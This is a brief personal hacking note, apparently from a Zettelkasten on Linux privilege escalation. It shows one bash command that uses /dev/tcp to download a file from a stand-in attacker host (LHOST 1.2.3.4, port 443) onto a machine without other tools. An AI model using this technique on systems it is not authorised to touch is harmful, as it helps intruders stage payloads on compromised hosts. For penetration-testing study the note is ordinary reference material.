 # linux enumeration quick commands transfer / download files with just bash receive
```bash
LHOST=1.2.3.4
LPORT=443
bash -c "cat < /dev/tcp/$LHOST/$LPORT" > filename
```

# References
- [20221003150907](/zet/20221003150907/README.md) linux enumeration quick commands transfer / download files with just bash
- ~/kb/hacking/priv-esc/enumeration-quick-commands.md

Tags:
    #assorted #command #hacking #privesc #enumeration
